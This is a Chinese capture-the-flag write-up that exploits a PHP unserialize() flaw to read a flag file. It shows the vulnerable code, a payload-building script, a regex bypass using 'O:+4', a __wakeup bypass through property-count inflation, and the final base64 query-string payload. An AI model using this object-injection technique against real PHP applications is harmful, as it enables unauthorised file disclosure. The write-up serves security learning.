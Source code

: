 # Web_php_unserialize

难度系数: 2.0

我们需要在 index.php 代码中找到漏洞,从而拿到 flag:

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 

?>
```

分析一下, 当用 `GET` 方式传入 `var` 值, `var` 被进行 `base64_decode()`, 然后用 `preg_match` 检查如果匹配 `o/c:数字:` (o, c 不分大小写) 将返回 `stop hacking!`, 若不匹配, 进行 `serialize($var)`. 那么我们需要绕过 `preg_math`.

在 class `Demo` 里, 当一个新的定义 `Demo` 出现, `__construct` 就实现 `$this->file = $file`. 当结束, `__destruct` 显示 `$this->file` 的内容. 因为 flag 在 `fl4g.php` 里, 那么如果我们可以定义个新的 `Demo("fl4g.php")` 就可以读 `fl4g.php`. 但是, 当 `serialize($var)` 实现会使 `__wakeup` 实现, 如果 `$this->file` 不等于 `index.php` 就会把它换成 `index.php`. 所以我们要绕过 `__wakeup`.

脚本制造 payload:

```php
<?php
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
}
$var = new Demo("fl4g.php");
echo serialize($var);
?>
```

需要注意一点, 因为 `$file` 是 `private` 属性, 所以我们要改一点我们的 `payload` 通过以下定义:

`\x00 + 类名 + \x00 + 变量名` 反序列化出来的是 `private` 变量, `\x00 + * + \x00 + 变量名` 反序列化出来的是 `protected` 变量, 直接 `变量名` 反序列化出来的是 `public` 变量.

我用 `Burp Suite` 的 `Decoder` 进行修改显示 `Hex` 的 `\x00`, 绕过 `preg_match`:

`?var=O:+4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}`

绕过 `__wakeup` (在 `PHP5 < 5.6.25， PHP7 < 7.0.10` 的版本存在 `wakeup` 的漏洞): 

`?var=O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}`

然后进行 `base64_encode`, 得出最后 payload:

`?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==`
